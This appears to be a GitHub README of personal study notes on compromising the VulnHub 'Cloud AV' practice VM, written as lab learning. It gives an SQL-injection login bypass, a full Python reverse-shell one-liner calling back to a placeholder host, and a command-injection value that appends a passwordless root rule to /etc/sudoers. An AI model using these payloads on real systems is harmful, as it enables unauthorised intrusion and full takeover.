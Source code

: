 # vulnhub.com-study-notes 
This my personal note that shows the important steps/codes for compromising vm boxes


----------------------------------------------------------------------------------------------------------------------------------------

**1.Cloud Antivirus Scanner**

VM link is https://www.vulnhub.com/entry/boredhackerblog-cloud-av,453/

The web with port 8080 can be discover via nikto, do an SQL injection to login the web portal, someone online did an brute force, and find a invite code  "password"  

```
"or"1"="1
```
This code means (NOTHING) or 1=1.  And since 1 does equal 1, a true statement, we bypass this process. Credit to sevenlayers.com 

Then open a port with nc, nc -lvp 6666, and load the python reverse shell payload
```
bash|python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("x.x.x.x",6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
msfvenom also has reverse_python module that we can use for access the terminal. 

You are login, but you are still not root yet. locate the file update_cloudav, execute 
```
./update_cloudav '|echo "scanner ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers' 
```
It will complete with error, but it is ok, use "sudo su" to access to root.  Job Done! 


----------------------------------------------------------------------------------------------------------------------------------------


